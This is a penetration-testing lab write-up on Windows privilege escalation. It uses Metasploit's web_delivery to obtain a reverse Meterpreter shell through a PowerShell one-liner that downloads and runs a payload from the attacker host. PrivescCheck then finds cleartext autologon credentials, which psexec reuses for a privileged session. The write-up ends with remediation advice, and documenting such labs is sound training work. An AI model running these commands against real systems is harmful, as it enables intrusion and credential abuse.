# Windows: PrivescCheck

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host<br>
**Attacker:** 10.10.41.5 (Kali)<br>
**Recovered creds:** `administrator:hello_123321`

## 1. Executive Summary

We get an initial foothold with the `web_delivery` module (a one-liner PowerShell stager),
upgrade to Meterpreter, then run **PrivescCheck** to audit the host for privilege-escalation
issues. It finds **cleartext WinLogon autologon credentials** in the registry; those
credentials used with `psexec` give a privileged session.

## 2. Initial Access (web_delivery)

```bash
use exploit/multi/script/web_delivery
set TARGET PSH
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.41.5
exploit
```

The module prints a PowerShell one-liner to run on the target:

```powershell
powershell.exe -nop -w hidden -c "...DownloadFile('http://10.10.41.5:8080/...')...invoke-item $z"
```







## 3. Upgrading & Context

Upgrading the shell to Meterpreter (adjusting the advanced `WIN_TRANSFER` option) and
migrating into `explorer.exe`.







The session is unprivileged.



## 4. Running PrivescCheck

Uploading and running the PrivescCheck PowerShell script.

```powershell
. .\PrivescCheck.ps1 ; Invoke-PrivescCheck
```





It flags cleartext **WinLogon** autologon credentials.

```
CREDS > WinLogon
Username : administrator
Password : hello_123321
```



## 5. Privileged Session (psexec)

```bash
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass hello_123321
exploit
```



## 6. Remediation Recommendations

1. **Remove cleartext autologon credentials** from the WinLogon registry keys
   (`DefaultPassword`); disable AutoAdminLogon.
2. **Run PrivescCheck/WinPEAS as part of hardening** to catch misconfigurations before an
   attacker does.
3. **Least privilege, LAPS and EDR** to limit credential reuse and detect the stager.
